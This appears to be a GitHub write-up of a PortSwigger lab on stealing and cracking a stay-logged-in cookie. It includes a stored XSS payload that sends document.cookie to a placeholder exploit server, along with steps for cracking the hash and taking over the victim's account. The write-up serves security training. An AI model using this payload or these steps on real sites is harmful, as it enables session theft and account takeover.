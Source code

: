 # 🔐 PortSwigger Authentication Vulnerability Lab: Offline Password Cracking

## 🏆 Objective
The lab stores user password hashes in cookies and contains an **XSS vulnerability** in the comment functionality. Our goal is to:

✅ Obtain **Carlos's stay-logged-in cookie** 🥠  
✅ Crack his **password hash** 🔑  
✅ Log in as **Carlos** 🕵️‍♂️  
✅ **Delete his account** from the "My Account" page ❌

---

## 🚀 Step 1: Log in and Analyze the Stay-Logged-In Cookie

1. **Log in using the provided credentials:**  
   - **Username:** `wiener`  
   - **Password:** `peter`

2. **Intercept the request** using **Burp Suite** and enable the "Stay logged in" checkbox.
3. **Observe the response** and note the **stay-logged-in** cookie (usually Base64-encoded).
4. **Copy and decode** the cookie using a **Base64 decoder** to extract the stored **username and password hash**.

---

## 🎯 Step 2: Exploiting XSS to Steal Carlos’s Cookie

Since the lab has an **XSS vulnerability** in the comment section, we can inject a malicious payload to steal **Carlos’s stay-logged-in cookie**. 

### 🕵️‍♂️ XSS Payload:
```html
<script>document.location='//YOUR-EXPLOIT-SERVER-ID.exploit-server.net/'+document.cookie</script>
```

1. **Post the above payload** in the comment section.
2. **Wait for Carlos to visit** the page. Once he does, his **stay-logged-in cookie** will be sent to our exploit server.
3. **Retrieve Carlos’s cookie** from the exploit server.

---

## 🔓 Step 3: Extracting Carlos’s Password Hash

1. **Copy Carlos’s stay-logged-in cookie** and decode it using a **Base64 decoder**.
2. The decoded result will likely be in this format:
   ```plaintext
   carlos:[password_hash]
   ```
3. **Extract the hash** and use an **online hash cracking service** like **CrackStation**.
4. **Retrieve the plaintext password**. In this case:
   - **Password:** `onceuponatime`

---

## 🏁 Step 4: Logging in as Carlos & Deleting the Account

1. **Use the cracked credentials**:
   - **Username:** `carlos`
   - **Password:** `onceuponatime`
2. Navigate to **"My Account"**.
3. Click on **"Delete my account"** to successfully complete the lab. ✅

---

## 📌 Conclusion

🔹 **Client-side password storage** is **insecure** and can lead to credential theft.  
🔹 **XSS vulnerabilities** can be exploited to steal sensitive user data.  
🔹 **Mitigation strategies:**  
   - Store **passwords securely** on the **server-side**. 🔒  
   - **Avoid** storing **sensitive data** in cookies. 🍪🚫  
   - Implement **input sanitization** and **Content Security Policies (CSPs)** to prevent **XSS attacks**. 🚧  

---

⚠️ **Ethical Disclaimer:** This guide is for **educational purposes only**. Always follow ethical hacking practices and seek permission before testing security vulnerabilities. 🛡️

---

✍️ **Author:** Ankur Sharma  
📅 **Date Edited:** Today
![Picture1](https://github.com/user-attachments/assets/162d3d5b-8f9a-40bb-9d51-168a09aacded)
![Picture2](https://github.com/user-attachments/assets/b8d05267-4cf3-4adc-84a2-f23b09ad0785)
![Picture3](https://github.com/user-attachments/assets/181a4fe7-884e-4552-9c95-d42d263bbb97)
![Picture4](https://github.com/user-attachments/assets/338438d7-3a19-4b53-b592-d49856f0e1dd)
![Picture5](https://github.com/user-attachments/assets/dda8af80-036f-4dc2-acff-2df39ba88d4c)
![Picture6](https://github.com/user-attachments/assets/3277c57d-1014-429d-a467-2cb24eae0c7f)
![Picture7](https://github.com/user-attachments/assets/7ddb25a8-4742-45ce-9ec2-7ad9d9df1289)
![Picture8](https://github.com/user-attachments/assets/25971d2a-6440-4ad6-9f37-000a529273ef)


